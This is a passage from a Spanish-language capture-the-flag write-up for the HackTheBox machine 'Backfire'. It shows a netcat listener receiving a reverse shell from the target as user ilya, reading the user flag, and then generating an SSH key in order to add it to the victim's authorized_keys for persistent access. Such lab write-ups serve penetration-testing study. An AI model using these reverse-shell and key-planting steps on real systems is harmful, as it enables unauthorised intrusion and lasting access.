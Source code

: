 ```bash
❯ nc -nlvp 444
listening on [any] 444 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.49] 60062
bash: cannot set terminal process group (2798): Inappropriate ioctl for device
bash: no job control in this shell
ilya@backfire:~/Havoc/payloads/Demon$ whoami
ilya
ilya@backfire:~/Havoc/payloads/Demon$ cat /home/ilya/user.txt
f5448999f2**********************
```

### Uploading our public SSH key to the machine to connect with SSH

La Shell que hemos recibido, por un motivo u otro era bastante inestable y se cerraba al poco tiempo.&#x20;

Por lo tanto, lo que decidimos es subir nuestra clave pública SSH al equipo para conectarnos mediante SSH sin proporcionar credenciales.

En nuestro equipo atacante, generaremos unas nuevas claves SSH.

```bash
❯ ssh-keygen
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/kali/.ssh/id_ed25519): 
Enter passphrase for "/home/kali/.ssh/id_ed25519" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/.ssh/id_ed25519
Your public key has been saved in /home/kali/.ssh/id_ed25519.pub
The key fingerprint is:
SHA256:L6LVCWep/EmLWtMMKME0I6CwJD99okkUpUfupYDD6LI kali@kali
The key's randomart image is:
+--[ED25519 256]--+
|*.*oo            |
|BO B             |
|*.O = o          |
|.o O *   .       |
|..+ + o S        |
|.. . . X o       |
|E     B B .      |
|     + * +       |
|    o.. +        |
+----[SHA256]-----+
```

Revisaremos el contenido de nuestra clave SSH pública.

```bash
❯ cat id_ed25519.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINchj1ycZWUZctrUZl/nhPPxygCF1kT7UbFMFfVqiyz0 kali@kali
```

Estando conectados en el equipo víctima, navegaremos al directorio `/home/ilya/.ssh` para añadir nuestra clave pública en el archivo `authorized_keys`.
